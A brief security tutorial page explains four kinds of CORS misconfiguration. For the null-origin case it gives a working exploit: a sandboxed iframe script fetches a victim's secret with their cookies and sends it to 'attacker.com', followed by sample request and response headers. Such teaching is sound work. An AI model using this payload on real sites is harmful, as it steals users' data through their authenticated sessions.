 ```yaml
---
title: CORS Misconfiguration 
description: Introduction to CORS Misconfiguration vulnerabilites.
---
```


# CORS Misconfiguration

Case :

1. `Access-Control-Allow-Origin: *` : Allow everyone to fetch this ressource, it can be dangerous if the ressource is not intended to be public.
2. `Access-Control-Allow-Origin` always reflect the value of the `Origin` request header : Same as `1)`, there are no protections.
3. `Access-Control-Allow-Origin` is set to a specific domain or reflect the value of the `Origin` request header only on subdomains : Try to find XSS on this domains.
4. `Access-Control-Allow-Origin` is `null` if the `Origin` is `null` :

You cannot set the value of the `Origin` request header using `fetch` or `XHR` because this header is not "safe".
However, this misconfiguration can still be exploited. Sandboxed elements (ex: `iframe`) sets the `Origin` header to `null` by default.

Example of exploit :

```html
<iframe sandbox="allow-scripts" src="data:text/html,
<script>
fetch('https://api.cors-null-vulnerable.com/sensitiveContent', {
    credentials: 'include'
})
.then(response => response.json())
.then(j => document.location=`https://attacker.com/exfiltration?key=${j['secret_key']}`);
</script>
"></iframe> 
```

HTTP Request headers :

```
GET /sensitiveContent HTTP/1.1
Host: api.cors-null-vulnerable.com
Cookie: session=agurne3nriezwaejpanrghq
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:93.0) Gecko/20100101 Firefox/93.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: null
[...]
```

HTTP response :

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 149

{
  "secret_key": "12345",
}
```